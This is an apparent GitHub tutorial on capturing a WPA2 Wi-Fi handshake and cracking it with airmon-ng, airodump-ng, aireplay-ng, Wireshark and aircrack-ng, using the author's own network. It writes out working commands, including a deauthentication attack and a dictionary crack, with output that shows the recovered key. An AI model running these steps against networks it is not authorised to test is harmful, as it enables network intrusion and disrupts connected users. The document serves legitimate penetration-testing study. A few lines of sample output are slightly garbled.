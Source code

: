
# 🔐 WPA2 Handshake Capture & Crack Guide

A step-by-step walkthrough for capturing and cracking WPA2 Wi-Fi handshakes using Kali Linux tools such as `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`, and `Wireshark`. This guide includes real command examples, output samples, and clear syntax explanations to help you learn practical Wi-Fi penetration testing.

---

## 🔰 STEP 1: Show your current Wi-Fi interfaces

```bash
ip a
Output:

bash
Copy
Edit
└─$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:d1:f8:5d brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.15/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
       valid_lft 83641sec preferred_lft 83641sec
    inet6 fd17:625c:f037:2:f3f0:9569:d80d:1f3c/64 scope global dynamic noprefixroute 
       valid_lft 83641sec preferred_lft 11641sec
    inet6 fe80::5cd6:6f08:b2c1:8819/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
10: wlan0mon: <BROADCAST,ALLMULTI,PROMISC,NOTRAILERS,UP,LOWER_UP> mtu 1500 qdisc noqueue state UNKNOWN group default qlen 1000
    link/ieee802.11/radiotap 00:2e:2d:e0:14:60 brd ff:ff:ff:ff:ff:ff

```

## 🛑 STEP 2: Stop Monitor Mode (to start fresh)
```bash
sudo airmon-ng stop wlan0mon
```
It will prompt for a password. Type kali if using Kali Linux.


Output:
```bash
PHY     Interface       Driver          Chipset

phy0    wlan0mon        rtl8xxxu        Realtek Semiconductor Corp. RTL8188FTV 802.11b/g/n 1T1R 2.4G WLAN Adapter
                (mac80211 station mode vif enabled on [phy0]wlan0)
                (mac80211 monitor mode vif disabled for [phy0]wlan0mon)
```

## 🚀 STEP 3: Start Monitor Mode
```bash
sudo airmon-ng start wlan0
```
It will prompt for password. Type kali if using Kali Linux.

Output:
```bash
PHY     Interface       Driver          Chipset

phy0    wlan0mon        rtl8xxxu        Realtek Semiconductor Corp. RTL8188FTV 802.11b/g/n 1T1R 2.4G WLAN Adapter
                (mac80211 station mode vif enabled on [phy0]wlan0)
                (mac80211 monitor mode vif disabled for [phy0]wlan0mon)
```

## 📡 STEP 4: Scan for Nearby Wi-Fi Networks
```bash
sudo airodump-ng wlan0mon
```
Let it run for 10–15 seconds, then press Ctrl + C.
Take note of:
```bash
BSSID (MAC) of your target network (e.g., Ankith)

Channel (CH)

ESSID (name)
```
Example:

```bash
3E:B7:E4:DD:3A:19  -40      122        0    0  11  180   WPA2 CCMP   PSK  Ankith
🧾 Syntax Explanation:
BSSID → This is the MAC address of the Wi-Fi router: 3E:B7:E4:DD:3A:19

CH (Channel) → The Wi-Fi channel number it's broadcasting on: 11

ESSID → The name of the network: Ankith
```

## 🎯 STEP 5: Lock onto the target and capture the handshake
```bash
sudo airodump-ng -c 11 --bssid 3E:B7:E4:DD:3A:19 -w ankith_capture wlan0mon
```
This locks onto channel 11, focuses on Ankith, and saves handshake to ankith_capture-01.cap.
Keep running until you see:
```bash
WPA handshake: 3E:B7:E4:DD:3A:19
```

## 💥 Trigger the Handshake (Deauth Attack)

If no client is connecting or the handshake is taking too long, we can force a device to reconnect by sending deauthentication packets.
```bash
sudo aireplay-ng -0 5 -a 3E:B7:E4:DD:3A:19 wlan0mon
```

Explanation:
```bash
-0 → Deauth attack mode

5 → Number of deauth packets

-a → Target BSSID (router)

wlan0mon → Monitor mode interface
```

This sends 5 deauthentication frames to all clients connected to Ankith.
Those clients will disconnect and auto-reconnect, triggering a WPA handshake.

## 📱 Simple Trick

Take your phone near the laptop or PC, turn Wi-Fi off, then turn it on again.
When the respective Wi-Fi appears on the phone, click on it.
WPA handshake: 3E:B7:E4:DD:3A:19 will appear on your terminal.

📋 Sample Output
```bash
CH 11 ][ Elapsed: 6 mins ][ 2025-07-05 03:40 ][ WPA handshake: 3E:B7:E4:DD:3A:19

BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
3E:B7:E4:DD:3A:19  -44  90     2795      418    0  11  180   WPA2 CCMP   PSK  Ankith

BSSID              STATION            PWR    Rate    Lost   Frames  Notes  Probes
3E:B7:E4:DD:3A:19  50:8F:4C:A9:E0:6D  -45    1e- 1   16721    10638  EAPOL  Ankith

```

## 🧾 STEP 7: Open and Visualize the Handshake in Wireshark
```bash
wireshark ankith_capture-01.cap
```

In Wireshark, apply this display filter:
```bash
eapol
```
You should see up to 4 packets:

Message 1 of 4

Message 2 of 4

Message 3 of 4

Message 4 of 4

Navigate to: IEEE 802.1X Authentication → Key Information

Example Key Info Flags:
```bash
KeyDescriPtor Versxon
Key Type: Pairwise Key
Key Index: @
Install: Set	[IMP]
Key ACK: set	[IMP]
Key MIC: set	[IMP]
Secure: Set
Error: Not set
Request: Not set
Encrypted Key Data: Set
SMK Message: Not set
```

🔢 Message Mapping Table:
Message	Flags
```bash
1	Key ACK = 1, Key MIC = 0, Install = 0
2	Key MIC = 1, ACK = 0, Install = 0
3	MIC = 1, ACK = 1, Install = 1
4	MIC = 1, ACK = 0, Install = 0 (again)
```

💡 You only need Message 2 to crack with Aircrack-ng.

## 🔓 STEP 9: Crack the Handshake
You’ll need a wordlist (dictionary of possible passwords).
In this case, Since it was my own Wifi, I suspected a few potential passwords and created a file including those.

📌 Create a Wordlist
```bash
echo -e "anki123456\nankith1234\nankith@2024\nAnkith123\nankithwifi\nankith321\nankith" > ankith_list.txt
```
🔨 Crack Command
```bash
aircrack-ng -w ankith_list.txt -b 3E:B7:E4:DD:3A:19 ankith_capture-01.cap
```
Or:
```bash
aircrack-ng -w ankith_list.txt -b 3E:B7:E4:DD:3A:19 ankith_capture-04.cap
```
🧾 Sample Output
```bash
Reading packets, please wait...
Opening ankith_capture-04.cap
Read 16951 packets.

1 potential targets

                               Aircrack-ng 1.7 

      [00:00:00] 7/7 keys tested (72.14 k/s) 

      Time left: --

                          KEY FOUND! [ anki123456 ]

Master Key     : 8D 99 0F 60 C7 01 2A 8B 41 1B 4A 4E 55 C4 8A 14 
                 25 52 A5 F1 DF 21 20 EA 4A 0C E9 52 3E 54 DB C4 

Transient Key  : E9 53 84 18 E3 D9 3B 7E 54 F7 81 5E EE 28 87 75 
                 5D 9C 5C F2 10 4C FA 5B 5A FE F3 D5 AF A9 D2 32 
                 63 DB 59 04 EA F8 79 BE DA 5A BE E6 3B 49 BD AB 
                 3D 02 68 3A CF 12 46 83 EA A8 2B 4C 57 43 8A DB 

EAPOL HMAC     : 81 C3 AD 1B 94 D1 CE C7 F6 6F 11 07 F1 0B CF 6D
```
✅ The suspected passwords list helped crack the key successfully.
